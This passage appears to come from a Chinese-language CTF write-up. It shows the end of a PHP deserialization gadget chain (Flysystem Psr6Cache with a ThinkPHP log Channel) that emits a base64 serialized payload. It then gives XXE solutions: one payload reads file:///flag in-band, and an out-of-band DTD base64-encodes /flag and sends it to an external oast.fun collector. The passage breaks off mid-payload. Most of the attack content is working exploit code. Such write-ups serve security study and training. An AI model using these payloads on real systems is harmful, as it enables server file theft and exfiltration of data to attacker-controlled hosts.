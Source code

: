 ```php
    }
}


namespace League\Flysystem\Cached\Storage;


use think\log\Channel;

class Psr6Cache
{
    protected $autosave = false;
    private $pool;
    function __construct(){
        $this->pool =new Channel();
    }

}


echo base64_encode(serialize(new Psr6Cache()));
```

## XXE

### XXE-PHP-001

> `先上传data.xml，发现/uploads/data.xml已经有原本文件，无法覆盖。通过"查看学籍数据"按钮发现index?file=可以加载任意xml文件。`
>
> `网页访问/uploads/data.xml找到原本xml文本数据格式，将可以页面回显的标签修改成XXE-payload。上传 data2.xml 成功后，通过index?file=data2.xml`
```xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE class [
<!ELEMENT class ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<class>
    <student>
        <name>flag</name>
        <year>&xxe;</year>
        <school>heihei</school>
    </student>
</class>
```


### XXE-PHP-002

> `与上一题类似的无回显XXE版本。考察无回显XXE下使用OOB带外获取数据，用XXE-OOB-payload带出到ceye或者vps上即可。`

dtd.xml 
```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">
<!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://sxielvzhzqayslxhetklcq64byiulay79.oast.fun/?result=%file;'>">
```
data.xml
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [
        <!ENTITY % dtd SYSTEM 'http://127.0.0.1:80/uploads/dtd.xml'>%dtd;%all;%send;
        ]>
<class>
    %dtd;
```